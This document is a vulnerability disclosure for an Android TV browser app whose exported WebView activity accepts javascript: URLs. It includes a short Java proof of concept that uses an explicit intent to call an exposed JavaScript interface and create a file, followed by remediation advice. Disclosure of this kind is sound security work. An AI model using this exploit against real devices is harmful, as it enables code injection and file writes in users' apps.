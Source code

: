 

---

### Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

#### Overview:
The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

#### Affected Component:
- Component: `com.altamirano.fabricio.tvbrowser.MainActivity`

#### Code Injection Details:
An attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URL containing malicious JavaScript is passed to the WebView, the code is executed within the app's context.

#### Arbitrary File Creation via JavaScript Interface Exposure:

The `MainActivity`'s WebView exposes certain JavaScript interfaces to web content. This exposes the app to arbitrary file creation vulnerabilities.

**Proof of Concept (Code Injection):**
```java
    public void launchBrowser() {
        // Constructing the JavaScript code to directly invoke the exposed JavaScript interface method.
        String base64TestData = "VGhpcyBpcyBhIHRlc3QgZm9yIHRoZSB2dWxuZXJhYmlsaXR5IFBvQy4="; // Represents "This is a test for the vulnerability PoC."
        String jsCode = String.format("javascript:if(window.Android && typeof window.Android.getBase64FromBlobData === 'function'){ window.Android.getBase64FromBlobData('data:text/plain;base64,%s', 'test.txt'); }", base64TestData);

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
        intent.setData(Uri.parse(jsCode));
        startActivity(intent);
}

```

---

#### Recommendations:
1. **Limit WebView Exposure:** Remove the exported status of activities containing a WebView or restrict them using intent filters.
2. **Validate URLs:** Ensure that URLs loaded in a WebView are validated and sanitized.
3. **Use JavaScript Safely:** Limit JavaScript access within the WebView. If required, only whitelist trusted scripts and sources.
4. **Restrict File Operations:** Ensure the exposed JavaScript interfaces don't grant unintended file permissions or access.

#### References:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-23: Relative Path Traversal](https://cwe.mitre.org/data/definitions/23.html)

---
